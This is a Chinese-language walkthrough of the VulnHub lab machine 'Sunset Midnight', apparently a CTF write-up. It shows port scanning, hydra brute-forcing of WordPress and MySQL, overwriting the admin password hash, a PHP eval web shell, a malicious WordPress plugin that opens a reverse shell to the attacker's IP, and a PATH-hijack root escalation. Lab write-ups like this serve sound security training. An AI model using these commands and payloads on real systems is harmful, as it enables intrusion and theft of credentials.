









# SUNSET MIDNIGHT

> https://download.vulnhub.com/sunset/midnight.7z

靶场IP：`192.168.2.4 `

扫描对外端口

```
┌──(root㉿kali)-[~/Desktop]
└─# nmap -p1-65535 -sV 192.168.2.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 07:13 EDT
Nmap scan report for 192.168.2.4
Host is up (0.000080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
MAC Address: 08:00:27:05:08:38 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.24 seconds

```

浏览器访问80端口，发现配置本地hosts



```
┌──(root㉿kali)-[~/Desktop]
└─# cat /etc/hosts
192.168.2.4 sunset-midnight
```



对wordpress进行暴力破解，发现无法爆破。

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt sunset-midnight -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
```

于是爆破MySQL端口，找到账号密码：`root/robert`

```
┌──(root㉿kali)-[/tmp]
└─# hydra -l root -P /usr/share/wordlists/rockyou.txt sunset-midnight mysql
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 08:43:20
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://sunset-midnight:3306/
[3306][mysql] host: sunset-midnight   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-04 08:43:21

```



查询wordpress的后台登录密码



不过无法破解到密码，于是直接更改密码的哈希的密码为`password`。

```
MariaDB [wordpress_db]> update wp_users set user_pass="5f4dcc3b5aa765d61d8327deb882cf99" WHERE ID=1;
Query OK, 1 row affected (0.003 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

登录wordpress后台



在插件添加一句话木马

```
<?php @eval($_GET["cmd"]); ?>
```



但是无法保存成功。


使用WordPress 木马插件

> https://github.com/wetw0rk/malicious-wordpress-plugin.git

```
┌──(root㉿kali)-[/opt/malicious-wordpress-plugin]
└─# python wordpwn.py 192.168.2.5 8888 Y
[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating payload To file

```



访问：`http://sunset-midnight/wp-content/plugins/malicious/wetw0rk_maybe.php`，即可连接反弹shell

> 或者`/wp-content/plugins/malicious/QwertyRocks.php`



查看`wp-config.php`

```
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'jose' );

/** MySQL database password */
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```

切换到`jose`用户


查找suid

```
jose@midnight:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/su
/usr/bin/sudo
/usr/bin/status
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

```

提权

```
jose@midnight:~$ /usr/bin/status
/usr/bin/status
sh: 1: service: not found
jose@midnight:~$ cd /tmp
cd /tmp
jose@midnight:/tmp$ nano service
nano service
Error opening terminal: unknown.
jose@midnight:/tmp$ 

jose@midnight:/tmp$ echo '/bin/sh' >> service
echo '/bin/sh' >> service
jose@midnight:/tmp$ export PATH=$PATH:/tmp
export PATH=$PATH:/tmp
jose@midnight:/tmp$ /usr/bin/status
/usr/bin/status
sh: 1: service: Permission denied
Status of the SSH server:jose@midnight:/tmp$ 

jose@midnight:/tmp$ chmod +x service
chmod +x service
jose@midnight:/tmp$ /usr/bin/status
/usr/bin/status
# id
id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)

```

查看flag


